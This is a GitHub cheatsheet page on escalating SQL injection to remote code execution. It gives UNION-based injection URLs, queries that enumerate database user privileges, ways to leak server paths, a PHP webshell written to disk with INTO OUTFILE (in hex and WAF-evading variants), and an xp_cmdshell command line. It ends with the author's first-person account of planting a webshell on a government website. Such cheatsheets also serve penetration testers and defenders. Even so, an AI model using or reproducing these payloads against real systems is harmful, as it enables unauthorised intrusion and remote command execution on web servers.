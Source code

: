 # 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#sql-privilege-escalation)

## Identifying the write user's permission

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#identifying-the-write-users-permission)

If the database user has write permission, it allows an attacker to upload arbitrary files in the server.

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
`http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -`

Payload used for Privilege Check via I_S.PRIVILEGES:

```sql
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Payload used for Privilege Check via MySQL System Table:

```sql
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

If for some reason you get Errors when using the mentioned queries, try the following query instead (it uses unhex(hex()) functions to avoid servier-side conflicts:

```sql
(SELECT+unhex(hex(GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)))+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Apply one of the queries into the 4th column:  
`http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -`

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#escalating-privileges)

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#finding-absolute-path)

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query, to get some absolute path directories:

```sql
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```

Look at the output, you should look after a directory, something like this: **/var/mysqltmp**

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below. Note: different websites displayes different output and format.

[![fatal_error_syntax](https://camo.githubusercontent.com/21a9947238523cdca7da7386b397e58ece7f9d83a5adefc0b54cf612e6ce9cc4/68747470733a2f2f692e696d6775722e636f6d2f7241504b7268312e706e67)](https://camo.githubusercontent.com/21a9947238523cdca7da7386b397e58ece7f9d83a5adefc0b54cf612e6ce9cc4/68747470733a2f2f692e696d6775722e636f6d2f7241504b7268312e706e67)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#uploading-webshell)

Let's use the following PHP code to inject it into an arbitrary file:

```html
<?php system($_GET[‘cmd’]); ?>
```

Below is the PHP script converted to 0xHEX format:  
`0xa3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e`

The following queries (same goal, different approach) is to inject this php code into an arbitrary file which we will name it **webshell.php** (for this part you MUST assume/know the absolute path of the file you want to upload, otherwise it won't work. Hint: use [@@slave_load_tmpdir](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/edit/main/Privilege%20Escalation/README.md#finding-absolute-path) to find the temporary directory located in the server).

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -
```

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,"<?php system($_GET['cmd']); ?>",5,6,7,8,9,10,11,12 into outfile "C:\\xampp\\htdocs\\webshell.php'-- -
```

```sql
http://domain.com/index.php?id=1' Union Select '' into outfile '/var/www/html/webshell.php' FIELDS TERMINATED BY "<?php system($_GET['cmd']); ?>"
```

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:

```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

`http://domain.com/webshell.php?cmd=whoami`

## OS Command Execution

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#os-command-execution)

Via **xp_cmdshell**:  
`something'); exec xp_cmdshell "ping 10.10.x.x"--`

## Real life scenario

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#real-life-scenario)

Below is a simple writeup of how I managed to upload a webshell in a gov website. Using the following query I found out that column 7 was vulnerable:  
`http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,7,8--`

Let's enumerate the user's privilege:  
`http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),8--`

The output looks promising, the user j**** has writing permission, which mean we can write arbitrary files:  
[![privilege_check_output](https://camo.githubusercontent.com/d99117e53011a5350fe3bfc3e654d32e2f173074037aaf99186d3abff9ba4a96/68747470733a2f2f692e696d6775722e636f6d2f473848523754712e6a7067)](https://camo.githubusercontent.com/d99117e53011a5350fe3bfc3e654d32e2f173074037aaf99186d3abff9ba4a96/68747470733a2f2f692e696d6775722e636f6d2f473848523754712e6a7067)

Now it's time to find an existing path so we know where to write our webshell. For this I am going to use some global variables (which we already discussed [here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#finding-absolute-path))  
`http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,@@slave_load_tmpdir,8--`

The output is:  
`C:\xampp\tmp`

Great, so now let's upload a webshell to **C:\xampp\tmp**:  
`http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,"<?php system($_GET['cmd']); ?>",8 into outfile 'C:/xampp/tmp/webshell.php'--`

I tried to find a way how to access our webshell, but since it is uploaded on /tmp directory, there was no chance to directly access it. In this case, we use **load_file()** function. `http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,load_file('C:/xampp/tmp/webshell.php'),8--`

If we see the source-code of the response, we can see our webshell uploaded:  
[![webshell_uploaded](https://camo.githubusercontent.com/74562b17e1e23e62af70efa9284666fe07babd95cf64ccaf049deac1eadaa6c6/68747470733a2f2f692e696d6775722e636f6d2f747952366370322e706e67)](https://camo.githubusercontent.com/74562b17e1e23e62af70efa9284666fe07babd95cf64ccaf049deac1eadaa6c6/68747470733a2f2f692e696d6775722e636f6d2f747952366370322e706e67)

Note: This is a simple PoC, in real-life pentest engagements, you might prefer uploading a proper webshell instead, since it is easier to interact with it.
